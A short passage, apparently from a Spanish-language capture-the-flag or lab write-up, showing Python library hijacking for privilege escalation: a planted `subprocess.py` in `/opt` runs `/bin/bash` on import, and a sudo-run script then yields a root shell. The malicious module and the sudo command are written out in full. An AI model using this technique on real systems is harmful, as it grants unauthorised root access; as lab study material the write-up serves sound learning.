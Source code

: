 

- Desarrollo de la técnica:
	- Creamos un archivo nano con el nombre `subprocess.py` en el directorio `/opt` e incluimos en él  código maliciosos para que nos proporcione una `shell` cuando sea importando.
   
<p align="center">
    <img src="Imagenes/124.png" width="1000">
</p>

```
import os 
os.system("/bin/bash")
```


-  Ejecutamos el script como root
	
```
 sudo /usr/bin/python3 /opt/paw.py
      
```

<p align="center">
    <img src="Imagenes/125.png" width="1000">
</p>



SOMOS ROOT 🚀
